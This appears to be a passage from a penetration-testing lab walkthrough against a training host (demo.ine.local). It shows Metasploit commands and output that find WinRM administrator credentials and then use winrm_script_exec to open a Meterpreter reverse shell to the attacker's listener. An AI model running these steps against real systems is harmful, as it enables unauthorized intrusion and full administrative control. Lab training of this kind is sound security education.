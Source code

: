 #### **What Happened:**
```bash
msf6 auxiliary(scanner/winrm/winrm_login) > set RHOSTS demo.ine.local
RHOSTS => demo.ine.local
msf6 auxiliary(scanner/winrm/winrm_login) > set USERNAME administrator  
USERNAME => administrator
msf6 auxiliary(scanner/winrm/winrm_login) > set PASSWORD password123
PASSWORD => password123
msf6 auxiliary(scanner/winrm/winrm_login) > exploit

[+] 10.0.28.125:5985 - Login Successful: WORKSTATION\administrator:password123
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### **🎉 Credential Success! What We Found:**
- **Valid Credentials** - administrator:password123 works
- **Administrative Account** - Direct admin access discovered
- **WinRM Access** - Can connect remotely to system
- **High Privilege Access** - Administrator account has full control

---

### **Step 4: Get WinRM Shell Access**

**What We're Doing:** Using valid credentials to get interactive shell on target system

#### **Commands Used:**
```bash
use exploit/windows/winrm/winrm_script_exec
set RHOSTS demo.ine.local
set USERNAME administrator
set PASSWORD password123  
set FORCE_VBS true
exploit
```

#### **What Happened:**
```bash
msf6 exploit(windows/winrm/winrm_script_exec) > set RHOSTS demo.ine.local
RHOSTS => demo.ine.local
msf6 exploit(windows/winrm/winrm_script_exec) > set USERNAME administrator
USERNAME => administrator  
msf6 exploit(windows/winrm/winrm_script_exec) > set PASSWORD password123
PASSWORD => password123
msf6 exploit(windows/winrm/winrm_script_exec) > set FORCE_VBS true
FORCE_VBS => true
msf6 exploit(windows/winrm/winrm_script_exec) > exploit

[*] Started reverse TCP handler on 10.10.31.2:4444
[*] User selected the FORCE_VBS option  
[*] Command Stager progress -   2.01% done (2046/101936 bytes)
[*] Command Stager progress -   4.01% done (4092/101936 bytes)
[*] Command Stager progress -   6.02% done (6138/101936 bytes)
[*] Command Stager progress -   8.03% done (8184/101936 bytes)
[*] Command Stager progress - 100.00% done (101936/101936 bytes)
[*] Sending stage (175686 bytes) to 10.0.28.125
[*] Meterpreter session 3 opened (10.10.31.2:4444 -> 10.0.28.125:49157) at 2025-01-27 14:20:15 +0530

meterpreter > getuid
Server username: WORKSTATION\administrator
```
